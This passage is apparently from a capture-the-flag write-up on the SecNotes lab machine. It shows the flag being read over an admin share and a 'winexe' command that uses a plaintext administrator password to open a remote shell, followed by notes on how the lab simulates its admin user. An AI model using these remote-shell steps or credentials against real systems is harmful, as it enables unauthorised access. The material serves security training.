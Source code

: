     C:\inetpub\new-site>type \\127.0.0.1\c$\users\administrator\desktop\root.txt
    type \\127.0.0.1\c$\users\administrator\desktop\root.txt
    7250cde1...



I could also do the same thing with `smbclient` from my kali box.

### Shell as administrator

Better yet, I want a shell. With admin creds, I can now use `winexe` (or
`psexec.py`) to get a shell on the box:



    root@kali# winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
    Microsoft Windows [Version 10.0.17134.228]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\WINDOWS\system32>whoami
    whoami
    secnotes\administrator



From there, I'll grab `root.txt`:



    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    7250cde1...



## Beyond Root

### Scenario

This box was centered around an admin named Tyler. Tyler is just
starting a revamp to his website, and he's building it on the same
server the current site is running from. He's hosting that site on a
quite uncommon port because he doesn't want it to be found yet, and he's
set the SMB password for himself to something quite long and difficult
for security. So that he doesn't forget it, he's saved it in his secure
notes website.

### Tyler Interaction

To simulate the admin (Tyler) interaction, SecNotes uses a powershell
script. There a few bits the script has to achieve:

-   Maintain cookie for logged in session to site as Tyler
-   Get contact messages
-   Visit links
-   Sleep

The script is set to run on login as there's a startup shortcut to
launch the script in tyler's startup directory.
